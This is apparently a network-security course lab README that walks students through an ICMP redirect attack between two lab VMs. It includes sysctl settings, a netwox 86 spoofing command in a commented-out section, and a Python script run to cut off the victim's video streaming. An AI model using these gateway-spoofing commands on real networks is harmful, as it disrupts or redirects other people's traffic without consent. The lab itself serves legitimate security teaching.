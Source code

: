 ## ICMP Redirect Attack

### Background

ICMP Redirects serve many performance benefits. Read the notes [here](../../notes/icmp/icmp_redirect_benefits.md) to learn the benefits.

But it can also be exploited in attacks, and that is known as the ICMP redirect attack. An ICMP redirect attack involves sending ICMP redirect messages to a victim machine. These messages instruct the victim to use a different gateway (the attacker's machine) for reaching a particular destination.

### Requirement

In this lab, you will use the ICMP redirect attack to disrupt a victim machine's connection to a video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM3 as the attacker. The 2 VMs reside in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 |  10.0.2.4     |  victim  |
| VM3 |  10.0.2.6     | attacker |

### Preparation steps:

On the victim VM, run these 2 commands to enable the ICMP redirect feature:

```console
$ sudo sysctl net.ipv4.conf.all.accept_redirects=1
$ sudo sysctl net.ipv4.conf.default.accept_redirects=1
```

Setting these two flags to 1 means that the victim VM accepts ICMP redirects packets, which oftentimes can provide performance benefits - although in this lab, such a feature is taken advantage by the attacker.
 
<!--

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

-->

### Attack steps:

<!-- #### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:
-->

1. victim, opens firefox, watches some youtube video.

2. attacker, impersonates the default gateway, keeps sending ICMP redirect packets to the victim which instruct the victim to use a different gateway (the attacker's machine) for reaching its destination.  You can use this script to send the icmp redirect packets: [icmp_redirect](icmp_redirect.py), before you can run the script, change the following 4 lines to match with your settings.

```console
victim_ip = "10.0.2.4"
default_gateway_ip = "10.0.2.1"
attacker_ip = "10.0.2.6"
iface = "enp0s3"  # replace with your network interface name
```

**Note**: how to find the default gateway ip address in the victim VM and how to find the network interface name? Run this command in the victim VM:

```console
$ ip route
default via 10.0.2.1 dev enp0s3 proto dhcp metric 100 
10.0.2.0/24 dev enp0s3 proto kernel scope link src 10.0.2.4 metric 100 
169.254.0.0/16 dev enp0s3 scope link metric 1000 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
```

In the above output, the ip address after the "default via" is the default gateway; here in this example, it is 10.0.2.1; and the string after the "dev" is the network interface name, in this example, it is "enp0s3".

3. run the script in the attacker VM:

```console
$ sudo python3 icmp_redirect.py
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking script):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
